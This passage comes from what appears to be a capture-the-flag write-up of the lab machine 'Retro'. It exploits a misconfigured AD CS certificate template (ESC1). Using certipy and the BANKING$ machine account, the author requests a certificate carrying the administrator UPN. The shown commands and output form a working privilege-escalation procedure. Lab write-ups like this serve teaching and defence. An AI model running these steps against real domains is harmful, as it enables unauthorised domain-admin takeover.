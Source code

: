 This means that the enrollee can specify what user they want the certificate for!

Additionally, the `Extended Key Usage` field is set to `Client Authentication`:

```

    Extended Key Usage                  : Client Authentication

```

This means that the certificate can be used to authenticating a user to a service. Without this, the resulting certificate wouldn’t be too valuable to me.

To enroll in this certificate, a user must be in one of these groups:

```

        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins

```

BANKING$ is in Domain Computers!

#### Exploit

I’ll use `certipy` to request a certificate, authenticating as BANKING$ but requesting the UPN of administrator@retro.vl:

```

oxdf@hacky$ certipy req -u 'BANKING$@retro.vl' -p 0xdf0xdf -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[-] Got error while requesting certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
Would you like to save the private key? (y/N): 
[-] Failed to request certificate

```

It fails. The public key length is too small for the template. In the `-h` for `certipy`, there’s a way to set this:

```
  -key-size RSA key length
                        Length of RSA key (default: 2048) 

```

I’ll double it, and it works:

```

oxdf@hacky$ certipy req -u 'BANKING$@retro.vl' -p 0xdf0xdf -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -key-size 4096
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```